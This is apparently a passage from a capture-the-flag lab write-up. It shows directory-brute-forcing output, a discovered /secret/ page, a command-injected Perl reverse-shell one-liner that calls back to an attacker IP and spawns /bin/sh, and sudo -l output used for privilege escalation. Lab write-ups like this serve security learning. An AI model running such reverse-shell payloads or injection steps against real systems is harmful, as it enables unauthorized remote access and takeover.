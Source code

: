 ```text
/css/bootstrap-theme.min.css.map
/css/bootstrap.css
/css/bootstrap.css.map
/css/bootstrap.min.css
/css/custom.css
/css/flaticon.css
/css/font-awesome.css
/css/bootstrap.min.css.map
/css/font-awesome.min.css
/css/owl.carousel.css
/css/prettyPhoto.css
/css/responsive.css
/fonts/Flaticon.eot
/fonts/Flaticon.svg
/fonts/Flaticon.ttf
/fonts/Flaticon.woff
/fonts/_flaticon.scss
/fonts/FontAwesome.otf
/fonts/flaticon.css
/fonts/flaticon.html
/fonts/fontawesome-webfont.eot
/fonts/fontawesome-webfont.svg
/fonts/fontawesome-webfont.ttf
/fonts/fontawesome-webfont.woff
/fonts/fontawesome-webfont.woff2
/fonts/glyphicons-halflings-regular.eot
/fonts/glyphicons-halflings-regular.ttf
/fonts/glyphicons-halflings-regular.svg
/fonts/glyphicons-halflings-regular.woff
/fonts/glyphicons-halflings-regular.woff2


--------------------------------

```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
**Dirbuster found a relevant URL!**

* \*\*\*\*[http://10.10.35.158/secret/](http://10.10.35.158/secret/)
{% endhint %}

```text
time;perl -e 'use Socket;$i="10.9.8.228";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```text
www-data@ubuntu:/$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```
